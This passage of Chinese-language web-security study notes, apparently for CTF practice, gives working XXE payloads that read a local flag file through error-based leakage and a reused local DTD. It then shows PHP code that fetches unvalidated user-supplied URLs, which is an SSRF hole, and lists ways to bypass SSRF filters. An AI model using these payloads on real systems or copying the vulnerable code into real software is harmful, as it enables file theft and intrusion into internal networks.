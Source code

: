 dtd文件

```
<!ENTITY % start "<!ENTITY &#x25; send SYSTEM 'file:///hhhhhhh/%file;'>">%start;   ///hhhhh这个目录不存在，于是会报错，讲%file的内容回显到浏览器。
```

引用本地文件

```
<?xml version="1.0"?><!DOCTYPE message [    <!ENTITY % remote SYSTEM "/usr/share/yelp/dtd/docbookx.dtd">    <!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=file:///flag">    <!ENTITY % ISOamso '        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; send SYSTEM &#x27;file://hhhhhhhh/?&#x25;file;&#x27;>">        &#x25;eval;        &#x25;send;    '>    %remote;]><message>1234</message>
```

# SSRF

ssrf-服务端请求伪造 sever-side request forgery

成因：服务端提供了从其他服务器获取数据的功能，但没有对目标地址做合理的限制与过滤，使得我们可以利用其来探测内网状态，获取内网资源，读取本地文件，测试内网或者本地的应用程序。

## 漏洞代码

```
<?php    function curl($url){        $ch=curl_init();        curl_setpot($ch,CURLOPT_URL,$url);        curl_setopt($ch,CURLOPT_HEADER,0);        curl_exec($ch);        curl_close($ch);}$url=$_GET["url"]curl($url);?>
```

### 漏洞函数：`file_get_contents\fsockopen\curl_exec`

**file_get_contents**

```
<?phpif (isset($_POST['url'])){$content=file_get_contents($_POST['url']);$filename='./images/'.rand().'img1.jpg';file_put_contents($filename,$content);echo $_POST['url'];$img="<img src=\"".$filename."\"/>";}echo $img?>
```

## 利用

直接更换输入点为我们需要访问地资源地址

## 绕过

1. http://www.baidu.com@www.sina.com
2. 使用十进制ip地址，十六进制IP地址前面加0x，八进制前面加0，
3. 使用ip地址，不适用域名
4. 使用短网址
5. 自己注册一个域名，指向127.0.0.1
6. 使用xip.io http://xx.xx.xx.xx.182.1.3.4.xip.io http://xx.182.1.3.4.xip.io/ ====http://182.1.3.4
7. 加上端口号绕过
8. 加上根域.
9. 使用中文句号替换.
10. 使用enclosed alphanumrics ①②③④⑤⑥⑦⑧⑨⑩⑪⑫⑬⑭⑮⑯⑰⑱⑲⑳⑴⑵⑶⑷⑸⑹⑺⑻⑼⑽⑾⑿⒀⒁⒂⒃⒄⒅⒆⒇⒈⒉⒊⒋⒌⒍⒎⒏⒐⒑⒒⒓⒔⒕⒖⒗⒘⒙⒚⒛⒜⒝⒞⒟⒠⒡⒢⒣⒤⒥⒦⒧⒨⒩⒪⒫⒬⒭⒮⒯⒰⒱⒲⒳⒴⒵ⒶⒷⒸⒹⒺⒻⒼⒽⒾⒿⓀⓁⓂⓃⓄⓅⓆⓇⓈⓉⓊⓋⓌⓍⓎⓏⓐⓑⓒⓓⓔⓕⓖⓗⓘⓙⓚⓛⓜⓝⓞⓟⓠⓡⓢⓣⓤⓥⓦⓧⓨⓩ⓪⓫⓬⓭⓮⓯⓰⓱⓲⓳⓴⓵⓶⓷⓸⓹⓺⓻⓼⓽⓾⓿
11. dns rebinding
    